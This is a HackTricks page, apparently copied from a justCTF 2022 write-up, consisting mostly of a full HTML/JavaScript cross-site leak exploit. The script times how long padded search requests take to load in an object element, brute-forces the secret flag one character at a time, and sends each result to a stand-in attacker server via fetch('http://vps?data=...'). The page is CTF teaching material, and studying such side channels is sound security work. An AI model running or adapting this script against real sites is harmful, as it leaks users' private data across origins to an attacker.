 # performance.now + Force heavy task

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**Exploit taken from [https://blog.huli.tw/2022/06/14/en/justctf-2022-xsleak-writeup/](https://blog.huli.tw/2022/06/14/en/justctf-2022-xsleak-writeup/)**

In this challenge the user could sent thousands of chars and if the flag was contained, the chars would be sent back to the bot. So putting a big amount of chars the attacker could measure if the flag was containing in the sent string or not.

{% hint style="warning" %}
Initially, I didn’t set object width and height, but later on, I found that it’s important because the default size is too small to make a difference in the load time.
{% endhint %}

```html
<!DOCTYPE html>
<html>
<head>

</head>
<body>
  <img src="https://deelay.me/30000/https://example.com">
    <script>
      fetch('https://deelay.me/30000/https://example.com')

      function send(data) {
        fetch('http://vps?data='+encodeURIComponent(data)).catch(err => 1)
      }

      function leak(char, callback) {
        return new Promise(resolve => {
          let ss = 'just_random_string'
          let url = `http://baby-xsleak-ams3.web.jctf.pro/search/?search=${char}&msg=`+ss[Math.floor(Math.random()*ss.length)].repeat(1000000)
          let start = performance.now()
          let object = document.createElement('object');
          object.width = '2000px'
          object.height = '2000px'
          object.data = url;
          object.onload = () => {
            object.remove()
            let end = performance.now()
            resolve(end - start)
          }
          object.onerror = () => console.log('Error event triggered');
          document.body.appendChild(object);
        })
        
      }

      send('start')

      let charset = 'abcdefghijklmnopqrstuvwxyz_}'.split('')
      let flag = 'justCTF{'

      async function main() {
        let found = 0
        let notFound = 0
        for(let i=0;i<3;i++) {
          await leak('..')
        }
        for(let i=0; i<3; i++) {
          found += await leak('justCTF')
        }
        for(let i=0; i<3; i++) {
          notFound += await leak('NOT_FOUND123')
        }

        found /= 3
        notFound /= 3
        
        send('found flag:'+found)
        send('not found flag:'+notFound)

        let threshold = found - ((found - notFound)/2)
        send('threshold:'+threshold)

        if (notFound > found) {
          return
        }

        // exploit
        while(true) {
          if (flag[flag.length - 1] === '}') {
            break
          }
          for(let char of charset) {
            let trying = flag + char
            let time = 0
            for(let i=0; i<3; i++) {
              time += await leak(trying)
            }
            time/=3
            send('char:'+trying+',time:'+time)
            if (time >= threshold) {
              flag += char
              send(flag)
              break
            }
          }
        }
      }

      main()
      
    </script>
</body>

</html>
```



{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
